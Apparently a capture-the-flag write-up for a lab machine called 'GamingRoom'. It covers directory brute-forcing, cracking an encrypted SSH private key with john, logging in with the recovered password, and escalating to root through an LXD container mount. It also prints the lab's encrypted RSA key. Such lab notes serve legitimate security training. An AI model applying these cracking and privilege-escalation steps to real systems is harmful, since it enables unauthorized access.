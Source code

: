 # GamingRoom

Target IP 10.10.53.164 

curl [http://ip/10.10.53.164/dict.lst](http://ip/uploads/dict.lst) > pwlist.txt

gobuster dir -u 10.10.53.164 -w /usr/share/wordlists/dirb/common.txt -t 200

/secret directory found!

RSA Key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

chmod 400 - id_rsa 

Inspect Page source on website:

`<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`

I took this as a hint to use john the ripper. 

python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

john id_rsa.hash

![Screen Shot 2022-05-22 at 12.49.58 PM.png](GamingRoom%207dad8e9817ce49f3a4e1798acbf9451e/Screen_Shot_2022-05-22_at_12.49.58_PM.png)

ssh pw: letmein

![Screen Shot 2022-05-22 at 12.51.11 PM.png](GamingRoom%207dad8e9817ce49f3a4e1798acbf9451e/Screen_Shot_2022-05-22_at_12.51.11_PM.png)

First flag found.

from John@exploitable I ran

find / -perm -u=s -type f 2>/dev/null

![Screen Shot 2022-05-22 at 12.54.38 PM.png](GamingRoom%207dad8e9817ce49f3a4e1798acbf9451e/Screen_Shot_2022-05-22_at_12.54.38_PM.png)

first I went to GTFO bins to see if mount showed anything but you need sudo privileges

Googled lxc-user-nic and found: 

[https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)

This article basically gives you the blueprint for a linux container build. 

Upload as a tar.gz file to the attack machine with root file system installed

We’re essentially uploading a built container that contains root access. When mounted this containers root access is attached to any are root has access to on target machine. This tripped me up a little when looking for the root flag.

tar.gz file - configuration for building container with root access. 

root in container on target machine but technically not root on the target machine.

![Screen Shot 2022-05-22 at 1.11.11 PM.png](GamingRoom%207dad8e9817ce49f3a4e1798acbf9451e/Screen_Shot_2022-05-22_at_1.11.11_PM.png)

Second Flag Found.